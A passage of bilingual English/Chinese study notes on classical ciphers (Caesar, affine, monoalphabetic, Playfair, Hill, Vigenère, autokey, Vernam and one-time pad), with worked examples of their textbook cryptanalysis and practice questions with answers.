(a) Half the key space: \(2^{63}\approx9.2\times10^{18}\) keys. (b) \(9.2\times10^{18}/10^{9}=9.2\times10^{9}\) s; with \(3.16\times10^{7}\) s per year this is about 292 years. (c) \(9.2\times10^{18}/10^{13}=9.2\times10^{5}\) s, about 10.7 days. A 64-bit key is too short against a well-equipped attacker; 128 bits or more is needed.(a) 密钥空间的一半，即 \(2^{63}\approx9.2\times10^{18}\) 个密钥。(b) \(9.2\times10^{18}/10^{9}=9.2\times10^{9}\) s；以每年 \(3.16\times10^{7}\) s 计，约为 292 年。(c) \(9.2\times10^{18}/10^{13}=9.2\times10^{5}\) s，约 10.7 天。对于装备精良的攻击者，64-bit 密钥太短，需要 128-bit 或更长的密钥。
Q2. (Classification) Name the attack type: (a) the analyst holds only intercepted ciphertexts; (b) every intercepted file starts with the same known header; (c) the analyst feeds messages of his choice to the sender's encryption device and reads the output; (d) the analyst feeds ciphertexts of his choice to a decryption device and reads the plaintexts. Which case gives the analyst the least information?Q2. （分类）指出攻击类型：(a) 分析者只掌握截获的密文；(b) 每个截获文件都以相同的已知文件头开头；(c) 分析者向发送方的加密设备输入自选的消息并读取输出；(d) 分析者向解密设备输入自选的密文并读取明文。哪种情形下分析者获得的信息最少？
Answer
(a) ciphertext only; (b) known plaintext (probable word); (c) chosen plaintext; (d) chosen ciphertext. Case (a) gives the least information, so it is the hardest attack to mount and the easiest to defend against.(a) 唯密文；(b) 已知明文（可能词）；(c) 选择明文；(d) 选择密文。情形 (a) 给予分析者的信息最少，因此它是最难实施、也最容易防御的攻击。
Q3. (True/false) "A cipher with a 256-bit key is unconditionally secure." Justify.Q3. （判断）“密钥为 256-bit 的密码是无条件安全的。”请说明理由。
Answer
False. With 256 bits brute force is infeasible, so the cipher is computationally secure: the cost and time of breaking it exceed the value and lifetime of the data. It is not unconditionally secure, because with enough ciphertext the key is in principle determined uniquely, so the ciphertext does contain the information needed. Only the one-time pad is unconditionally secure.错误。256-bit 时穷举攻击不可行，因此该密码是计算上安全的：破译它的代价和时间超过了数据的价值和有效期。它不是无条件安全的，因为只要有足够多的密文，密钥在原则上就可以被唯一确定，即密文确实包含了所需的信息。只有一次一密是无条件安全的。
易错：长密钥只给计算安全，不是无条件安全。
Substitution ciphers: Caesar and monoalphabetic ★★★代换密码：凯撒密码与单表代换
Goal. Encrypt and decrypt with the Caesar, affine and keyword monoalphabetic ciphers, count their keys, and break a monoalphabetic cipher by letter frequencies.目标。 用凯撒、仿射和关键字单表密码进行加密和解密，计算它们的密钥数，并利用字母频率破解单表密码。
A substitution cipher（代换密码）replaces plaintext letters by other letters, numbers or symbols. Plaintext is written in lowercase and ciphertext in uppercase.代换密码把明文字母替换为其他字母、数字或符号。明文用小写书写，密文用大写书写。
Step 1: the Caesar cipher第 1 步：凯撒密码
In words: Caesar = move every letter k places down the alphabet, wrapping from Z to A.用文字表述：凯撒密码 = 把每个字母在字母表中向后移动 k 位，从 Z 绕回 A。
The Caesar cipher（凯撒密码）was used by Julius Caesar with \(k=3\).凯撒密码由尤利乌斯·凯撒使用，移位量为 \(k=3\)。
How to do it by hand: 1. Convert each letter to its number. 2. Add \(k\) (encrypt) or subtract \(k\) (decrypt). 3. Reduce modulo 26. 4. Convert back to letters.手工做法：1. 把每个字母换成它的编号。2. 加上 \(k\)（加密），或减去 \(k\)（解密）。3. 对 26 取模。4. 把数字换回字母。
With \(k=3\) the word "meet" is m=12, e=4, e=4, t=19. Add 3: 15, 7, 7, 22, which is PHHW. The whole sentence "meet me after the toga party" becomes PHHW PH DIWHU WKH WRJD SDUWB.当移位量为 \(k=3\) 时，单词 "meet" 为 m=12, e=4, e=4, t=19。加 3 得到 15, 7, 7, 22，即 PHHW。整句 "meet me after the toga party" 变为 PHHW PH DIWHU WKH WRJD SDUWB。
Breaking it. There are only 25 keys, so the analyst tries all of them and looks for the line that reads as English.破解方法。 只有 25 个密钥，因此分析者可以全部试一遍，找出读起来像英文的那一行。
k=1 oggv og chvgt vjg vqic rctva
k=2 nffu nf bgufs uif uphb qbsuz
k=3 meet me after the toga party
k=4 ldds ld zesdq sgd snfz ozqsx
Brute force works for three reasons: the algorithms are known, there are only 25 keys, and the plaintext language is known and recognisable. An algorithm with many keys defeats it: 3DES has \(2^{168}>3.7\times10^{50}\) keys.穷举之所以有效，有三个原因：算法已知，只有 25 个密钥，明文语言已知且容易辨认。如果密钥很多，穷举就行不通了：3DES 有 \(2^{168}>3.7\times10^{50}\) 个密钥。
Step 2: the affine cipher第 2 步：仿射密码
In words: affine = multiply by a, then add b; the multiplier must be invertible so that decryption is possible.用文字表述：仿射 = 先乘以 a，再加上 b；乘数必须可逆，解密才可能。
The affine cipher（仿射密码）generalises Caesar.仿射密码是凯撒密码的推广。
If \(\gcd(a,26)\ne1\), letters collide. For \(a=2\) and \(b=3\), both a (0) and n (13) encrypt to D, so decryption is impossible. Two known letter pairs give two congruences from which \(a\) and \(b\) are found (Practice Q2).如果 \(\gcd(a,26)\ne1\)，就会出现字母冲突。对于 \(a=2\) 和 \(b=3\)，a（0）和 n（13）都加密为 D，因此无法解密。由两对已知字母可以得到两个同余式，从中解出 \(a\) 和 \(b\)（练习第 2 题）。
Step 3: monoalphabetic substitution第 3 步：单表代换
In words: monoalphabetic = one fixed table that swaps every letter for another letter, the same table for the whole message.用文字表述：单表代换 = 一张固定的表，把每个字母换成另一个字母，整条消息都用同一张表。
If the cipher alphabet may be any permutation of the 26 letters, the cipher is monoalphabetic（单表代换）, because one cipher alphabet is used per message. A set of \(n\) elements has \(n!\) permutations, so the key space is \(26!\approx4.0\times10^{26}\approx2^{88}\). This is about \(5.6\times10^{9}\) times the key space of DES.如果密文字母表可以是 26 个字母的任意置换，这种密码就是单表代换，因为每条消息只用一个密文字母表。一个含 \(n\) 个元素的集合有 \(n!\) 种置换，因此密钥空间为 \(26!\approx4.0\times10^{26}\approx2^{88}\)。这大约是 DES 密钥空间的 \(5.6\times10^{9}\) 倍。
A keyword makes the permutation easy to remember. Write the keyword without repeated letters, then the unused letters in order. The keyword CRYPTO gives the cipher alphabet CRYPTOABDEFGHIJKLMNQSUVWXZ. Then "attack at dawn" becomes CQQCYF CQ PCVI.关键字让置换更容易记住。先写下关键字中不重复的字母，再按顺序写下没用过的字母。关键字 CRYPTO 得到的密文字母表为 CRYPTOABDEFGHIJKLMNQSUVWXZ。于是 "attack at dawn" 变为 CQQCYF CQ PCVI。
Brute force is hopeless: at \(10^9\) keys/s half the key space takes about \(6.4\times10^{9}\) years. But each plaintext letter always becomes the same cipher letter. The ciphertext shows the letter frequencies of the plaintext under new names. Frequency analysis（频率分析）exploits this. English letter frequencies in percent:以每秒 \(10^9\) 个密钥的速度，试完一半的密钥空间约需 \(6.4\times10^{9}\) 年，穷举毫无希望。但每个明文字母总是变成同一个密文字母。密文显示了明文的字母频率，只是换了字母的名字。频率分析正是利用这一点。英语字母频率（百分比）如下：
| e | t | a | o | i | n | s | h | r | d | l | c | u |
|---|---|---|---|---|---|---|---|---|---|---|---|---|
| 12.7 | 9.1 | 8.2 | 7.5 | 7.0 | 6.7 | 6.3 | 6.1 | 6.0 | 4.3 | 4.0 | 2.8 | 2.8 |
The other letters are below 2.5%: m, w, f, g, y, p, b lie between 2.4 and 1.5; v and k are about 1; j, x, q, z are below 0.2. The commonest digrams（双字母组）are th, he, in, er, an, re. The commonest trigram is the.其余字母都低于 2.5%：m、w、f、g、y、p、b 在 2.4 到 1.5 之间；v 和 k 约为 1；j、x、q、z 低于 0.2。最常见的双字母组是 th、he、in、er、an、re。最常见的三字母组是 the。
How to do it by hand: 1. Count the ciphertext letters. The most frequent ones probably stand for e, t, a, o, i, n, s, h, r; the rarest for j, k, q, x, z. 2. Count digrams and trigrams and look for repeated patterns and common words (th_t, one-letter words, double letters). 3. Make tentative assignments, write the partial plaintext and refine until it reads as English. A longer ciphertext matches the statistics better.手工做法：1. 统计密文中各字母的个数。出现最多的字母很可能对应 e、t、a、o、i、n、s、h、r；出现最少的对应 j、k、q、x、z。2. 统计双字母组和三字母组，寻找重复的模式和常见单词（th_t、单字母单词、重复字母）。3. 先做试探性的对应，写出部分明文，并不断修正，直到读起来像英文。密文越长，统计结果越吻合。
A ciphertext of 120 letters:一段 120 个字母的密文：
UZQSOVUOHXMOPVGPOZPEVSGZWSZOPFPESXUDBMETSXAIZ
VUEPHZHMDZSHZOWSFPAPPDTSVPQUZWYMXUZUHSX
EPYEPOPDZSZUFPOMBZWPFUPZHMDJUDTMOHMQ
P (13.3%) and Z (11.7%) are the most frequent letters, so they probably stand for e and t in some order. The digram ZW occurs three times. If Z = t, it reads th, so W = h. Then ZWP reads "the", which confirms P = e. The string ZWSZ looks like th_t, so S = a. Continuing with frequencies and trial and error gives "it was disclosed yesterday that several informal but direct contacts have been made with political representatives of the viet cong in moscow".P（13.3%）和 Z（11.7%）是最常见的字母，所以它们很可能分别对应 e 和 t，顺序未定。双字母组 ZW 出现了三次。如果 Z = t，它读作 th，于是 W = h。那么 ZWP 读作 "the"，从而确认 P = e。字符串 ZWSZ 看起来像 th_t，所以 S = a。继续结合频率和试错，得到 "it was disclosed yesterday that several informal but direct contacts have been made with political representatives of the viet cong in moscow"。
Homophones（同音替换）counter this. A letter gets several cipher symbols, in proportion to its frequency, used in rotation or at random. For example e might map to 16, 74, 35 or 21. Single-letter frequencies vanish, but each plaintext element still affects only one ciphertext element, so digram patterns survive. Two ways to hide more structure are to encrypt several letters at once (Section 2.4) and to use several cipher alphabets (Section 2.5).同音替换可以对付这种攻击。一个字母对应多个密文符号，数量与它的频率成正比，并轮流或随机使用。例如 e 可以映射为 16、74、35 或 21。单字母频率因此消失了，但每个明文元素仍然只影响一个密文元素，所以双字母组的模式依然保留。要隐藏更多结构，有两种办法：一次加密多个字母（第 2.4 节），以及使用多个密文字母表（第 2.5 节）。
Practice练习
Q1. (Trace) The Caesar ciphertext XPPE LE ESP MCTORP was made with an unknown key. Break it and give the decryption formula.Q1. （手工演算）凯撒密文 XPPE LE ESP MCTORP 是用未知密钥加密的。请破译它，并给出解密公式。
Answer
Decrypt with each key in turn: \(k=3\) gives UMMB IB BPM JZQLOM, \(k=10\) gives NFFU BU UIF CSJEHF, and \(k=11\) gives "meet at the bridge", the only readable line. So \(k=11\) and \(p=(C-11)\bmod 26\); for example X = 23 gives 12 = m, and E = 4 gives −7 ≡ 19 = t. At most 25 trials are needed.依次用各密钥解密：\(k=3\) 得到 UMMB IB BPM JZQLOM，\(k=10\) 得到 NFFU BU UIF CSJEHF，\(k=11\) 得到 "meet at the bridge"，这是唯一可读的一行。因此 \(k=11\) 且 \(p=(C-11)\bmod 26\)；例如 X = 23 得到 12 = m，E = 4 得到 −7 ≡ 19 = t。至多需要 25 次尝试。
Q2. (Calculation) An affine cipher \(C=(ap+b)\bmod 26\) is used. In a long ciphertext the most frequent letter is C and the second most frequent is Z. Assume they stand for e and t. Find \(a\), \(b\) and the decryption function.Q2. （计算）使用仿射密码 \(C=(ap+b)\bmod 26\)。在一段长密文中，出现最频繁的字母是 C，其次是 Z。假设它们分别代表 e 和 t。求 \(a\)、\(b\) 以及解密函数。
Answer
e = 4, t = 19, C = 2, Z = 25, so \(4a+b\equiv2\) and \(19a+b\equiv25\). Subtracting gives \(15a\equiv23\pmod{26}\). Since \(15\cdot7=105\equiv1\), \(15^{-1}=7\) and \(a\equiv23\cdot7=161\equiv5\). Then \(b\equiv2-4\cdot5=-18\equiv8\). Check: \(\gcd(5,26)=1\) and \(5\cdot19+8=103\equiv25\). With \(5^{-1}=21\) the decryption function is \(p=21(C-8)\bmod 26\).e = 4，t = 19，C = 2，Z = 25，因此 \(4a+b\equiv2\) 且 \(19a+b\equiv25\)。两式相减得 \(15a\equiv23\pmod{26}\)。由于 \(15\cdot7=105\equiv1\)，\(15^{-1}=7\)，且 \(a\equiv23\cdot7=161\equiv5\)。于是 \(b\equiv2-4\cdot5=-18\equiv8\)。验证：\(\gcd(5,26)=1\) 且 \(5\cdot19+8=103\equiv25\)。当 \(5^{-1}=21\) 时，解密函数为 \(p=21(C-8)\bmod 26\)。
思路：两个等式相减消去 b，再用模逆元解 a。
Q3. (Explain) A monoalphabetic cipher has \(26!\approx4\times10^{26}\) keys. Why is it still easy to break, and why do homophones not repair this?Q3. （解释）单表密码有 \(26!\approx4\times10^{26}\) 个密钥。为什么它仍然容易破译，而同音替换又为什么无法弥补这一缺陷？
Answer
Searching the key space is infeasible (about \(6.4\times10^{9}\) years at \(10^{9}\) keys/s), but no search is needed: every plaintext letter always maps to the same cipher letter, so the ciphertext keeps the letter frequencies and the digram and trigram patterns of the language. The analyst maps the most frequent cipher letters to e, t, a, …, and refines with th, the and word shapes. Homophones give a letter several symbols in proportion to its frequency, which flattens single-letter counts. But each plaintext element still affects only one ciphertext element, so digram frequencies and word patterns survive and cryptanalysis stays straightforward.搜索密钥空间不可行（以 \(10^{9}\) keys/s 计，约需 \(6.4\times10^{9}\) 年），但根本无需搜索：每个明文字母总是映射为同一个密文字母，因此密文保留了语言的字母频率，以及双字母组和三字母组的模式。分析者将最频繁的密文字母对应到 e、t、a 等，并借助 th、the 及词形加以修正。同音替换让一个字母按频率比例对应多个符号，从而拉平单字母的计数。但每个明文元素仍只影响一个密文元素，因此双字母组频率和词形模式依然保留，密码分析仍然直接。
Playfair and Hill ciphers ★★★Playfair 密码与 Hill 密码
Goal. Build a Playfair matrix and encrypt with it, encrypt with a Hill key, invert a 2×2 key modulo 26, and recover a Hill key from known plaintext.目标。 构造 Playfair 矩阵并用它加密，用 Hill 密钥加密，对模 26 的 2×2 密钥求逆，并从已知明文恢复 Hill 密钥。
Both ciphers encrypt several letters at a time, which hides single-letter frequencies better than a monoalphabetic cipher.这两种密码都一次加密几个字母，比单表密码更能隐藏单字母频率。
Step 1: the Playfair cipher第 1 步：Playfair 密码
In words: Playfair = encrypt letters in pairs, using the positions of the two letters in a 5×5 keyword square.用文字表述：Playfair = 成对地加密字母，利用两个字母在 5×5 关键字方阵中的位置。
The Playfair cipher（普莱费尔密码）treats each plaintext digram as one unit. The 5×5 matrix is built from a keyword: write its letters without repeats row by row, then the remaining letters alphabetically. I and J share one cell. For the keyword monarchy:Playfair 密码把每个明文双字母组当作一个单位处理。5×5 矩阵由关键字构造：先按行写下关键字中不重复的字母，然后按字母顺序填入其余字母。I 和 J 共用一个格子。以关键字 monarchy 为例：
M O N A R
C H Y B D
E F G I/J K
L P Q S T
U V W X Z
How to do it by hand:手工操作的方法：
- Split the plaintext into pairs. Separate equal letters in a pair with a filler such as x ("balloon" becomes ba lx lo on). Pad a final single letter with x.把明文分成若干对。如果一对中的两个字母相同，就在中间插入填充字母，例如 x（"balloon" 变为 ba lx lo on）。最后单独剩下的一个字母用 x 补齐。
- Same row: replace each letter by the one to its right, wrapping from the last to the first. Example: ar → RM.同行：把每个字母换成它右边的字母，从最后一个绕回第一个。例：ar → RM。
- Same column: replace each letter by the one below, wrapping. Example: mu → CM.同列：把每个字母换成它下面的字母，同样绕回。例：mu → CM。
- Otherwise (rectangle): replace each letter by the letter in its own row and the other letter's column. Examples: hs → BP and ea → IM (or JM).不同行、不同列（两个字母构成矩形）：把每个字母换成与自己同一行、与另一个字母同一列的字母。例：hs → BP，ea → IM（或 JM）。
Decryption moves left and up, with the same rectangle rule.解密时向左、向上移动，并采用相同的矩形规则。
Playfair has 676 digrams instead of 26 letters, and digram frequencies vary less than letter frequencies. Frequency analysis is therefore much harder. The cipher still leaves much structure. Its letter-frequency profile is flatter than plaintext but far from flat, and a few hundred ciphertext letters suffice to break it with digram statistics. If AB decrypts to PQ, then BA decrypts to QP, which also helps the attack. The key space of \(25!\approx1.6\times10^{25}\) matrices does not help.Playfair 有 676 个双字母组，而不是 26 个字母，并且双字母组的频率比字母频率差异更小，因此频率分析要难得多。但这种密码仍然保留了大量结构。它的字母频率分布比明文平坦，却远不是均匀的，只要几百个密文字母，就能用双字母组统计将其破解。如果 AB 解密为 PQ，那么 BA 解密为 QP，这也会帮助攻击。\(25!\approx1.6\times10^{25}\) 个矩阵的密钥空间并没有什么帮助。
Step 2: the Hill cipher第 2 步：Hill 密码
In words: Hill = turn m plaintext letters into numbers and multiply them by a secret m × m matrix modulo 26.用文字表述：Hill = 把 m 个明文字母变成数字，再乘以一个秘密的 m × m 矩阵，结果模 26。
The Hill cipher（希尔密码）replaces \(m\) successive plaintext letters by \(m\) ciphertext letters using \(m\) linear equations modulo 26.Hill 密码用 \(m\) 个模 26 的线性方程，把 \(m\) 个连续的明文字母替换为 \(m\) 个密文字母。
How to do it by hand: 1. Convert the plaintext to numbers and cut it into blocks of \(m\) letters. 2. Multiply each block (row vector on the left) by \(K\) and reduce modulo 26. 3. To decrypt, check \(\gcd(\det K,26)=1\), find \(K^{-1}\) and multiply the ciphertext blocks by it.手工做法：1. 把明文转换为数字，并切分成每组 \(m\) 个字母的分组。2. 把每个分组（作为左边的行向量）乘以 \(K\)，并对 26 取模。3. 解密时，先检查 \(\gcd(\det K,26)=1\)，求出 \(K^{-1}\)，再用它乘以密文分组。
Worked inversion of \(K=\begin{pmatrix}3&2\\8&5\end{pmatrix}\). The determinant is \(3\cdot5-2\cdot8=-1\equiv25\), and \(25^{-1}=25\) because \(25\cdot25=625=24\cdot26+1\). So \(K^{-1}=25\begin{pmatrix}5&-2\\-8&3\end{pmatrix}\equiv\begin{pmatrix}21&2\\8&23\end{pmatrix}\). Check: the product \(KK^{-1}\) is the identity modulo 26. Encrypt "he" = \((7\ 4)\): \((7\cdot3+4\cdot8,\ 7\cdot2+4\cdot5)=(53,34)\equiv(1,8)\) = BI. Decrypt: \((1\cdot21+8\cdot8,\ 1\cdot2+8\cdot23)=(85,186)\equiv(7,4)\) = he.对 \(K=\begin{pmatrix}3&2\\8&5\end{pmatrix}\) 求逆的例题。行列式为 \(3\cdot5-2\cdot8=-1\equiv25\)，且 \(25^{-1}=25\)，因为 \(25\cdot25=625=24\cdot26+1\)，所以 \(K^{-1}=25\begin{pmatrix}5&-2\\-8&3\end{pmatrix}\equiv\begin{pmatrix}21&2\\8&23\end{pmatrix}\)。检验：乘积 \(KK^{-1}\) 模 26 为单位矩阵。加密 "he" 得到 \((7\ 4)\)：\((7\cdot3+4\cdot8,\ 7\cdot2+4\cdot5)=(53,34)\equiv(1,8)\) = BI。解密：\((1\cdot21+8\cdot8,\ 1\cdot2+8\cdot23)=(85,186)\equiv(7,4)\) = he。
Hill hides single-letter frequencies completely, and a larger \(m\) hides more. A 3×3 matrix also hides two-letter frequencies. An example with a 3×3 key encrypts "paymoremoney" as RRLMWBKASPDH. For \(m=2\) there are 157,248 valid keys, namely 6 × 26,208, the numbers of invertible matrices modulo 2 and modulo 13.Hill 完全隐藏单字母频率，而且 \(m\) 越大，隐藏得越多。3×3 矩阵还能隐藏双字母频率。用一个 3×3 密钥加密 "paymoremoney" 的例子得到 RRLMWBKASPDH。对于 \(m=2\)，有 157,248 个有效密钥，即 6 × 26,208，分别是模 2 和模 13 的可逆矩阵个数。
Step 3: the known-plaintext attack on Hill第 3 步：对 Hill 的已知明文攻击
In words: Hill is linear, so a few known plaintext blocks and their ciphertext blocks give equations that are solved for the key.用文字表述：Hill 是线性的，所以几个已知明文分组及其密文分组可以列出方程，解出密钥。
Hill resists a ciphertext-only attack but not a known-plaintext attack. Take \(m\) plaintext blocks \(P_j\) and their ciphertext blocks \(C_j=P_jK\). Stack them as the rows of two \(m\times m\) matrices \(X\) and \(Y\). Then \(Y=XK\), so \(K=X^{-1}Y\). If \(X\) is not invertible modulo 26, use other pairs.Hill 能抵抗唯密文攻击，但抵抗不了已知明文攻击。取 \(m\) 个明文分组 \(P_j\) 及其对应的密文分组 \(C_j=P_jK\)，把它们分别作为两个 \(m\times m\) 矩阵 \(X\) 和 \(Y\) 的各行。然后 \(Y=XK\)，所以 \(K=X^{-1}Y\)。如果 \(X\) 模 26 不可逆，就换用其他分组对。
The weakness is linearity. Modern ciphers add nonlinear components (Section 4.2).弱点在于线性。现代密码加入了非线性部件（见第 4.2 节）。
Practice练习
Q1. (Trace) Build the Playfair matrix for the keyword ALGORITHM and encrypt "hello world".Q1. （手工演算）为关键词 ALGORITHM 构造 Playfair 矩阵，并加密 "hello world"。
Answer
Rows (I and J share a cell): ALGOR, ITHMB, CDEFK, NPQSU, VWXYZ. Pairs: he lx lo wo rl dx (x separates the double l and pads the last letter). he: same column → EQ. lx: rectangle → GW. lo: same row → GR. wo: rectangle → YL. rl: same row, R wraps to A → AG. dx: rectangle → EW. Ciphertext: EQGWGRYLAGEW.各行（I 与 J 共用一格）：ALGOR、ITHMB、CDEFK、NPQSU、VWXYZ。分组：he lx lo wo rl dx（x 用于分隔重复的 l，并补足最后一个字母）。he：同列 → EQ。lx：矩形 → GW。lo：同行 → GR。wo：矩形 → YL。rl：同行，R 绕回到 A → AG。dx：矩形 → EW。密文：EQGWGRYLAGEW。
Q2. (Calculation) The Hill key is \(K=\begin{pmatrix}7&3\\2&5\end{pmatrix}\). (a) Show that \(K\) is valid and find \(K^{-1}\). (b) Encrypt "meetat". (c) Decrypt the first block of the result. (d) Is \(\begin{pmatrix}23&5\\13&7\end{pmatrix}\) a valid key?Q2. （计算）Hill 密钥为 \(K=\begin{pmatrix}7&3\\2&5\end{pmatrix}\)。(a) 证明 \(K\) 是有效的，并求 \(K^{-1}\)。(b) 加密 "meetat"。(c) 解密所得结果的第一个分组。(d) \(\begin{pmatrix}23&5\\13&7\end{pmatrix}\) 是否为有效密钥？
Answer
(a) \(\det K=35-6=29\equiv3\) and \(\gcd(3,26)=1\), so \(K\) is valid. \(3^{-1}=9\), hence \(K^{-1}=9\begin{pmatrix}5&-3\\-2&7\end{pmatrix}=\begin{pmatrix}45&-27\\-18&63\end{pmatrix}\equiv\begin{pmatrix}19&25\\8&11\end{pmatrix}\). (b) me = (12 4): \((12\cdot7+4\cdot2,\ 12\cdot3+4\cdot5)=(92,56)\equiv(14,4)\) = OE. et = (4 19): \((66,107)\equiv(14,3)\) = OD. at = (0 19): \((38,95)\equiv(12,17)\) = MR. Ciphertext: OEODMR. (c) \((14\ 4)K^{-1}=(14\cdot19+4\cdot8,\ 14\cdot25+4\cdot11)=(298,394)\equiv(12,4)\) = me. (d) \(\det=23\cdot7-5\cdot13=96\equiv18\) and \(\gcd(18,26)=2\ne1\), so there is no inverse and the matrix is not a valid key.(a) \(\det K=35-6=29\equiv3\) 与 \(\gcd(3,26)=1\)，因此 \(K\) 是有效的。\(3^{-1}=9\)，从而 \(K^{-1}=9\begin{pmatrix}5&-3\\-2&7\end{pmatrix}=\begin{pmatrix}45&-27\\-18&63\end{pmatrix}\equiv\begin{pmatrix}19&25\\8&11\end{pmatrix}\)。(b) me = (12 4)：\((12\cdot7+4\cdot2,\ 12\cdot3+4\cdot5)=(92,56)\equiv(14,4)\) = OE。et = (4 19)：\((66,107)\equiv(14,3)\) = OD。at = (0 19)：\((38,95)\equiv(12,17)\) = MR。密文：OEODMR。(c) \((14\ 4)K^{-1}=(14\cdot19+4\cdot8,\ 14\cdot25+4\cdot11)=(298,394)\equiv(12,4)\) = me。(d) \(\det=23\cdot7-5\cdot13=96\equiv18\) 与 \(\gcd(18,26)=2\ne1\)，因此不存在逆元，该矩阵不是有效密钥。
易错：行向量在左、矩阵在右；负数要加 26 取模。
Q3. (Beyond the pages: chosen-plaintext attack) A 2×2 Hill encryption device with an unknown key encrypts texts chosen by the attacker. Which texts reveal \(K\) immediately? The device returns DC for "ba" and IF for "ab". Find \(K\).Q3. （课外内容：选择明文攻击）一台 2×2 Hill 加密设备的密钥未知，它会加密攻击者选定的文本。哪些文本能立即揭示 \(K\)？设备对 "ba" 返回 DC，对 "ab" 返回 IF。求 \(K\)。
Answer
"ba" = (1 0) and "ab" = (0 1) are the rows of the identity matrix, so \((1\ 0)K\) and \((0\ 1)K\) are the first and second rows of \(K\). With \(X=I\) no matrix inversion is needed, which makes this easier than the known-plaintext attack. DC = (3 2) and IF = (8 5), so \(K=\begin{pmatrix}3&2\\8&5\end{pmatrix}\). For an \(m\times m\) key, the \(m\) unit-vector plaintexts suffice."ba" = (1 0) 与 "ab" = (0 1) 分别是单位矩阵的各行，因此 \((1\ 0)K\) 与 \((0\ 1)K\) 分别是 \(K\) 的第一行和第二行。由于 \(X=I\)，无需求矩阵的逆，这比已知明文攻击更简单。DC = (3 2)，IF = (8 5)，因此 \(K=\begin{pmatrix}3&2\\8&5\end{pmatrix}\)。对于 \(m\times m\) 密钥，\(m\) 个单位向量形式的明文即已足够。
Polyalphabetic ciphers and the one-time pad ★★★多表代换密码与一次一密
Goal. Encrypt with Vigenère, find the key length with the Kasiski examination, use XOR for the Vernam cipher, and explain when a one-time pad is unbreakable.目标。 用维吉尼亚密码加密，用卡西斯基检验找出密钥长度，用异或实现 Vernam 密码，并解释一次一密何时不可破解。
Step 1: the Vigenère cipher第 1 步：维吉尼亚密码
In words: Vigenère = a Caesar shift whose size changes with each letter, following a repeating keyword.用文字表述：维吉尼亚 = 凯撒式的移位，移位量随每个字母变化，并按一个重复的关键字取值。
A polyalphabetic（多表代换）substitution cipher uses a set of related monoalphabetic rules. The key decides which rule applies at each position. The Vigenère cipher（维吉尼亚密码）uses the 26 Caesar ciphers with shifts 0 to 25, each named by a key letter (the cipher letter that replaces a). The keyword is repeated along the plaintext.多表代换密码使用一组相关的单表规则，由密钥决定每个位置用哪条规则。维吉尼亚密码使用移位量为 0 到 25 的 26 个凯撒密码，每个移位量用一个密钥字母来命名（即替换 a 的那个密文字母）。关键字沿明文重复使用。
key: deceptivedeceptivedeceptive
plaintext: wearediscoveredsaveyourself
ciphertext: ZICVTWQNGRZGVTWAVZHCQYGLMGJ
For example w + d = 22 + 3 = 25 = Z and e + e = 4 + 4 = 8 = I. A plaintext letter has several possible cipher letters, so single-letter frequencies are obscured. For a keyword of length 9 the frequency profile is flatter than Playfair's but not flat.例如 w + d = 22 + 3 = 25 = Z，e + e = 4 + 4 = 8 = I。一个明文字母可能对应多个密文字母，因此单字母频率被掩盖了。关键字长度为 9 时，频率分布比 Playfair 平坦，但仍不均匀。
Step 2: breaking Vigenère第 2 步：破解维吉尼亚密码
In words: find the key length first; then each column of the ciphertext is an ordinary Caesar cipher.用文字表述：先找出密钥长度；然后密文的每一列都是普通的凯撒密码。
- Monoalphabetic or not? If the ciphertext shows one letter near 12.7%, another near 9% and so on, assume a monoalphabetic substitution. A flatter profile suggests Vigenère.是单表还是多表？ 如果密文中一个字母接近 12.7%，另一个接近 9%，依此类推，就假设它是单表代换。频率分布较平坦，则说明是维吉尼亚密码。
- Find the key length with the Kasiski examination（卡西斯基检验）. Identical plaintext fragments at a distance that is a multiple of \(m\) meet the same key letters and give identical ciphertext. Take the greatest common divisor of the distances between repeated fragments. Chance repeats add noise.找出密钥长度，可以用卡西斯基检验。相同的明文片段，如果相距为 \(m\) 的倍数，就会遇到相同的密钥字母，从而产生相同的密文。取重复片段之间距离的最大公约数。偶然的重复会带来噪声。
- Solve each column. With key length \(m\) the cipher is \(m\) interleaved Caesar ciphers. The letters at positions \(1,\ 1+m,\ 1+2m,\dots\) share one shift. Apply frequency analysis to each column separately.逐列求解。 当密钥长度为 \(m\) 时，密码相当于 \(m\) 个交错的凯撒密码。位于位置 \(1,\ 1+m,\ 1+2m,\dots\) 的字母共享同一个移位量。对每一列分别做频率分析。
The index of coincidence（重合指数）is an alternative to Kasiski. It is the probability that two randomly chosen letters of a text are equal. English text gives about 0.066 and uniformly random letters give about 0.038. Columns made with the correct key length give values near 0.066.重合指数是卡西斯基检验的另一种方法。它是一段文本中随机取两个字母、二者相等的概率。英文文本约为 0.066，均匀随机的字母约为 0.038。用正确的密钥长度分出的各列，其值接近 0.066。
Step 3: autokey第 3 步：自动密钥
In words: autokey = after the keyword, use the plaintext itself as the key, so the key never repeats.用文字表述：自动密钥 = 关键字之后，把明文本身作为密钥，因此密钥永不重复。
The periodic key can be removed by the autokey（自动密钥）system: the keyword is followed by the plaintext as a running key.周期性的密钥可以通过自动密钥系统去掉：关键字之后接上明文，作为运行密钥。
key: deceptivewearediscoveredsav
plaintext: wearediscoveredsaveyourself
ciphertext: ZICVTWQNGKZEIIGASXSTSLVVWLA
It is still breakable. Key and plaintext have the same letter statistics, so e enciphered by e occurs with probability about \(0.127^2\approx0.016\), while t enciphered by t is only half as likely. Such regularities can be exploited.它仍然可以被破解。密钥和明文具有相同的字母统计特性，因此 e 被 e 加密的概率约为 \(0.127^2\approx0.016\)，而 t 被 t 加密的概率只有它的一半。这些规律可以被利用。
Step 4: Vernam cipher and one-time pad第 4 步：Vernam 密码与一次一密
In words: Vernam = XOR the plaintext bits with key bits; the one-time pad = Vernam with a truly random key that is as long as the message and never reused.用文字表述：Vernam = 明文比特与密钥比特按位异或；一次一密 = 使用真正随机、与消息等长且绝不重复使用的密钥的 Vernam 密码。


Vernam used a looping tape, that is, a long but repeating key. This can be broken with enough ciphertext or known plaintext. The one-time pad（一次一密）fixes this. The key is truly random, as long as the message, used for one message only and then discarded. The ciphertext is then random and statistically unrelated to the plaintext.Vernam 密码用的是循环带，也就是很长但会重复的密钥。只要有足够的密文或已知明文，它就可以被破解。一次一密解决了这个问题。密钥是真正随机的，与消息等长，只用于一条消息，用完即丢弃。这样密文就是随机的，在统计上与明文无关。
